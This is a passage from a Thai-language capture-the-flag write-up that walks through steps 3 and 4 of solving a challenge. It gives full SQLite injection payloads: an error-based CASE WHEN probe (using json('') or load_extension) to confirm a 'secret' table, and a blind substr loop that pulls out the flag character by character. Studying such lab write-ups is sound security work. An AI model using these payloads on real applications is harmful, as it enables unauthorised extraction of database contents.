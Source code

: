 
#### 3. **การตรวจสอบการมีอยู่ของ Table `secret` เผื่อโจทย์เปลี่ยนชื่อ Table**  
   เพื่อหาว่ามี **Table `secret`** อยู่หรือไม่ โดยจะใช้ `CASE WHEN` ถ้ามี จะให้ผลเป็น `1` ถ้าไม่มี ใช้ให้ Error ด้วยฟังก์ชัน `json('')` หรือ `load_extension(1)` ก็ได้
   
   ใช้คำสั่ง:
   ```sql
   CHECKS:(select case when (select count(*) from secret)='<input>' then 1 else json('') end)
   ```
   **ผลลัพธ์:** Server ตอบกลับเป็น `DONE` แสดงว่ามี Table `secret` ที่เราต้องการ

---

#### 4. **การใช้งาน Blind SQL Injection เพื่อดึง Flag**  
   หลังจากพบว่า **Table `secret`** มีข้อมูล เราจึงจะใช้ **Blind SQL Injection** เพื่อหาตัวอักษรทีละตำแหน่ง 
   
   ใช้คำสั่ง:
   ```sql
   CHECKS:(select case when (select substr(value,1,"+index+") from secret)='<input>' then 1 else json('') end)
   ```
   โดยแทนค่า `index` และ `ตัวอักษร` เข้าไปในคำสั่งเพื่อทดสอบทีละตำแหน่งจนพบ Flag!  

---

<img src="./resources/28.png" alt="" style="width:80% !important;">

   **ผลลัพธ์:** พบ **Flag** สำหรับโจทย์ข้อนี้!

<img src="./resources/27.png" alt="" style="width:60% !important;">
